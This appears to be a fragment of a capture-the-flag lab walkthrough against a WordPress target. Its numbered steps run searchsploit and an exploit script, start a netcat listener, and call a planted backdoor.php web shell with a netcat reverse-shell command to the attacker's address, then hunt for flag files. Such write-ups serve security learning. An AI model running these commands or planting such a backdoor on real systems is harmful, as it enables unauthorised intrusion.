      **Flag1**

    ![13](/Images/1/13.png)

3. `searchsploit wordpress`

4. `sudo chmod 777 exploit.sh`

5. `./exploit.sh`

6. In kali: `nc -lnvp 4444`

7. `192.168.1.115/backdoor.php?cmd=nc 192.168.1.90 4444 -e /bin/bash`

![14](/Images/1/14.png)

8. `Find /var/www -type f -name .flag*’`

9. Go to browser and put `http://192.168.1.115/wordpress/wp-content/uploads/2018/11/flag3.png`

![15](/Images/1/15.png)